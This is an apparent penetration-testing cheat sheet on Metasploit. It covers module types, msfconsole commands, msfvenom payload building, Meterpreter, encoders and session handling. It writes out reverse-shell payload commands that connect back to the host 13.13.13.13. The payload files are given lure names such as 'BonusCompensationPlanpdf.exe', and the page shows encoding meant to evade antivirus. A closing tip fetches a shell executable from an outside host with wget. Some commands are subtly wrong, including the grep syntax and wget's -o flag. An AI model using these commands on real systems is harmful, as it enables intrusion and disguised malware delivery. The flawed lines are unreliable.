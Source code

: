 # Metasploit

## What is this?

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## Architecture

1. **Auxiliary** - Any supporting module, such as scanners, crawlers and fuzzers.
2. **Encoders** - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. **Evasion** - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. **Exploits** - Exploits, neatly organized by target system.
5. **NOPs** - `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. **Payloads** - Payloads are codes that will run on the target system.
7. **Post** - Post modules would be useful in post-exploitation.

## Useful MSFconsole Commands

* **Specific Search**

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

* **Get more info about module**

```bash
info
```

* **MSF - Permanent Target Specification**

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

* **Show and Set Target for exploit**

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

* **Searching for Specific Payload**

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

* **Use Local Exploit Suggester**

```bash
msf6 > search local exploit suggester
```

## MSFvenom

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.

* **List Payloads**

```bash
msfvenom -l payloads
```

* **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

* **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Staged vs Stageless Payloads

<mark style="color:blue;">**`Staged`**</mark>** payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>** payloads do not have a stage.** So all payload and programs are loaded at first time.

## Meterpreter

`The Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

## Encoder

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Sessions

* **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

* **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

* **Backgrounding session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

* **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

* **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

* **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

***

## Lifehacks

* Use wget -o parameter when you want to install revshell file into machine like:&#x20;

```
wget http://13.13.13.13:1337/shell.exe -o shell.exe
```
